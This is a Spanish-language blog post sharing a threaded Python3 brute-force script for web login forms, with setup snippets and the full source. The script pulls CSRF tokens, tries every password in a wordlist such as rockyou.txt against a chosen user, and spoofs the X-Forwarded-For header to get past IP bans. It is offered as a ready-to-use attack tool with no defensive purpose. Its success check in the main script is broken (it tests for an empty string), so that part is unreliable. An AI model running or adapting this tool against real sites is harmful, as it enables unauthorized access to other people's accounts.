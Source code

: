 # Brute-Force Login With Threads

# [https://pastebin.com/9gW4iGkJ](https://pastebin.com/9gW4iGkJ)

![Untitled](/assets/images/Brute-Force-Login-With-Threads/Untitled.png)

He realizado este script ya que he estado investigando un poco y me parecía que no habían muchos scripts en python3 que realicen fuerza bruta a un login, por eso he decidido compartirlo con vosotros.

Primero que nada os voy a comentar un poco lo que hace este script y como debéis de usarlo ya que no funciona para cualquier pagina, actualmente en esta “version” únicamente funciona contra paginas que tengan o no tengan un tokenCSRF, en caso de que no lo tengan implementado y unicamente se tramite por POST el “username” y el “password” tenéis que cambiar la configuración del script de esta forma:

```python
#Extraccion del token anti-csrf
        #token = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)[0]
        post_data = {
            #'tokenCSRF': '%s' % token,
            'username' : '%s' % username,
            'password' : '%s' % password,
            'save': ''
        }
```

También tenéis que configurar la respuesta del lado del servidor para comprobar si la contraseña es correcta o no lo es, para ello realizareis una petición con unas credenciales incorrectas y veréis el típico error al fallar las credenciales como por ej: “Invalid credentials”, sabiendo la respuesta del lado del servidor configurareis el script de la siguiente forma:

```python
#Configuracion de la respuesta del servidor para averiguar la contraseña
        if "Invalid credentials" not in r.text:
            print(Color.BLUE + "\n\nLa contraseña es: " + Color.YELLOW + "%s" % password)
            executor.shutdown(wait=False, cancel_futures=True)
            sys.exit(1)
        else:
            pass
```

Por mi experiencia en la creación del script recomiendo no usar mas de 2 hilos de velocidad (esta puesto 2 hilos por defecto), ya que estos tipos de ataques dependen mucho de la velocidad de respuesta del servidor web, y si le metemos muchos hilos va a ir muy rápido pero no le dará tiempo a comprobar si la contraseña es correcta o no. Todo depende de la velocidad del servidor.

Os dejo por aquí también el script:

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
 
import requests
from pwn import *
import urllib3
import mmap
import argparse
 
from concurrent.futures import ThreadPoolExecutor
  
# CTRL+C
def def_hundler(sig, frame):
    print(Color.RED + "[!]Saliendo..")
    exit(1)
signal.signal(signal.SIGINT, def_hundler) 
 
#Colores
class Color:
    CYAN = '\033[96m'
    BLUE = '\033[94m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'
    END = '\033[0m'
#Funciones
def usage():
    fNombre = os.path.basename(__file__)
    ussage = fNombre + ' [-h] [-url URL] [-u USERNAME] [-w DICCIONARIO] [-t HILOS]\n\n'
    ussage += '[+] Examples:\n'
    ussage += '\t' + fNombre + ' -url https://google.com/login -u admin -w /usr/share/wordlists/rockyou.txt -t 2\n'
    return ussage
 
def arguments():
    parse = argparse.ArgumentParser(usage=usage(), description="Python3 Brute-Force login with threads")
    parse.add_argument('-u', dest='username', type=str, default='', help='Usuario a reventar')
    parse.add_argument('-w', dest='diccionario', type=str, default='', help='Diccionario a usar')
    parse.add_argument('-url', dest='url', type=str, help='URL del login')
    parse.add_argument('-t', dest='threads', type=int, default='2', help='Hilos (Velocidad), Default -> [2]')
    return parse.parse_args()
 
#Funcion para sacar el numero de palabras de un diccionario 
def get_num_lines(diccionario):
    fp = open(diccionario, "r+")
    buf = mmap.mmap(fp.fileno(), 0)
    lines = 0
    while buf.readline():
        lines += 1
    return lines
 
 
def do_login(s, url, username, password, executor, count, total):
 
    try:
        r = s.get(url)
        #Extraccion del token anti-csrf
        token = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*?)"', r.text)[0]
        post_data = {
            'tokenCSRF': '%s' % token,
            'username' : '%s' % username,
            'password' : '%s' % password,
            'save': ''
        }
        headers_data = {
            #Bypass IP-BAN
            'X-Forwarded-For': '%s' % password,
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        }
#        proxy = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
        r = s.post(url, data=post_data, headers=headers_data, allow_redirects = True)
        p1.status(Color.BLUE + "Intentando con la contraseña" + Color.RED + " [%d/" %count + "%d] ==>" %total + Color.GREEN + " %s" %password)        
        #Configuracion de la respuesta del servidor para averiguar la contraseña
        if '' in r.text:
            print(Color.BLUE + "\n\nLa contraseña del usuario " + Color.YELLOW + "%s " %username + Color.BLUE + "es: " + Color.YELLOW + "%s" % password)
            executor.shutdown(wait=False, cancel_futures=True)
            sys.exit(1)
        else:
            pass
 
    except Exception as e:
        print(e)
 
def main(url, username, diccionario, executor):
    try:
        urllib3.disable_warnings()
        s = requests.session()
        s.verify = False
        count = 0
        with open(diccionario, encoding='latin-1') as fp:
            for password in fp.read().splitlines():
                count += 1
                executor.submit(do_login, s, url, username, password, executor, count, total)
    except Exception as e:
        print(e)
 
if __name__ == '__main__':
    print(Color.CYAN + """
██████╗ ██████╗ ██╗   ██╗████████╗███████╗    ███████╗ ██████╗ ██████╗  ██████╗███████╗██████╗ 
██╔══██╗██╔══██╗██║   ██║╚══██╔══╝██╔════╝    ██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔════╝██╔══██╗
██████╔╝██████╔╝██║   ██║   ██║   █████╗█████╗█████╗  ██║   ██║██████╔╝██║     █████╗  ██████╔╝
██╔══██╗██╔══██╗██║   ██║   ██║   ██╔══╝╚════╝██╔══╝  ██║   ██║██╔══██╗██║     ██╔══╝  ██╔══██╗
██████╔╝██║  ██║╚██████╔╝   ██║   ███████╗    ██║     ╚██████╔╝██║  ██║╚██████╗███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝ ╚═════╝    ╚═╝   ╚══════╝    ╚═╝      ╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═╝  ╚═╝ 
        """)
    args = arguments()
    total = get_num_lines(args.diccionario)
    p1 = log.progress(Color.BLUE + "Fuerza Bruta sobre el usuario :" + Color.RED + " %s" % args.username)    
    executor = ThreadPoolExecutor(args.threads)
    main(args.url, args.username, args.diccionario, executor)
```
